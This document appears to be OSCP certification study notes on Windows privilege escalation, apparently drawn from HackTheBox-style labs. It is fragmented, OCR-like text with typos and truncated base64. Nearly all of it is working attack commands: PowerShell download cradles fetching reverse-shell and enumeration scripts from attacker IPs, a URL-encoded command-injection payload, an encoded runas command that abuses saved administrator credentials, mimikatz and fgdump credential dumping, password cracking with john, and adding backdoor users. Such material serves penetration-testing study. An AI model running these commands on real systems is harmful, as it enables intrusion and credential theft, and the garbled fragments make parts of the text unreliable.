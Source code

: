 ```yaml
---
title: "OSCP: Windows Privilege Escalation"
parent: OSCP
grand_parent: Certifications
nav_order: 3
---
```


```
icacls scsiaccess.exe
...
Everyone: (I)(F)
```
crosscompile useradd.c
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
wce -w
fgdump.exe
type 127.0.0.1.pwdump
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
Is there python on dev windows machine
Use pyinstaller on dev windows machine
python pyinstaller.py --onefile ms11-080.py
Check for powershell
powershell whoami
whaomi /priv
cmdkey /list
run an exploit suggesters
If web server poke around databasel
Check if I can write in folder
echo PleaseSubsribe > test
1. Nishang
2. unicorn → meterpreter from a standard shell
UPGRADE TO NISHANG 1. Locate the PS > Invoke...reverse shell line in script and put at bottom so it executes in memory after transfer
2. Server python -m SimpleHTTPServer 80
3. powershell “IEX(New-Object NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1')”
net user dan dan /add; net local
UNICORN
Exploit suggesters • Sherlock.ps1
• Powerup.ps1 → service misconfigs
• Exploit suggester ./windows-exploit-suggester.py
python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt
• jaws-enum.ps1
• Empire??
Sherlock.ps1
windows-exploit-suggester.py
Empire
PowerUp.ps1
46/67
locate PowerUp.ps1. Copy then add “Invoke-AllChecks” to end
http://10.10.10.9/ippsec.php?fexec=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.11:8000/
PowerUp.ps1%27)%20|%20powershell%20-noprofile%20-
Run Invokes from memory as the file transferred
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
1. jaws-enum.ps1 JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
BURP (ctr-U to url encode the following)
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object
NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1').}
powershell -ExecutionPolicy Bypass -File xyz.ps1
group Administrators dan /add
rdesktop 10.10.10.10 -u dan
2. jaws-enum.ps1 powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
PS C:\Users\Public\Desktop> dir
"ZKAccess3.5 Security System.lnk"
GET FILE CONTENTS SO WE KNOW HOW TO RUN AS ADMIN
get-Content "ZKAccess3.5 Security System.lnk" == linux “file”
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem *.lnk
$Wscript.CreateShortcut($shortcut)
FullName : C:\Users\Public\Desktop\ZKAccess3.5
Security System.lnk
Arguments : /user:ACCESS\Administrator /savecred
"C:\ZKTeco\ZKAccess3.5\Access.exe"
Description :
Hotkey :
IconLocation : C:\ZKTeco\ZKAccess3.5\img\AccessNET.
ico,0
RelativePath :
TargetPath : C:\Windows\System32\runas.exe
WindowStyle : 1
WorkingDirectory : C:\ZKTeco\ZKAccess3.5
runas /user:ACCESS\Administrator /savecred whoami
This string 'http://10.10.14.3:8000/9002.ps1'
To this encoding prior to base64
--to-code UTF-16LE
Full command in kali
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/9002.ps1')" | iconv --to-code UTF-16LE |
47/67
base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Set up listener on KALI
nc -nlvp 9002
runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Use mimikatz
Need write access to download, go to your users desktop
(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
didnt work
tried from telnet sessiondir
powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
not recog as command
github Generic-AppLockerbypasses.md
Empire Chatterbox
Look at original nmap scan for other shite running (nmap localhost)
check permissions on webserver echo PleaseSubscribe > test
FAILS
Directory: C:\inetpub\wwwroot
Mode LastWriteTime Length Name
---- ------------- ------ ----
d---- 8/21/2018 11:30 PM aspnet_cli
ent
-a--- 8/24/2018 12:33 AM 391 index.html
-a--- 8/24/2018 8:39 PM 88712 out.jpg
PASSWORDS cmdkey /list - is a stored pw
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
→ Use Mimikatz
48/67
KERNEL EXPLOITS If no service packs or Hotfixes then possibly vulnerable to kernel exploits
pgdump.exe, pwdump.exe, fgdump.exe
type 127.0.0.1 pwdump
wce32.exe -w
wce64.exe -w
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords # gets passwords
Hashed passwords
https://crackstation.net
https://hashkiller.co.uk
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
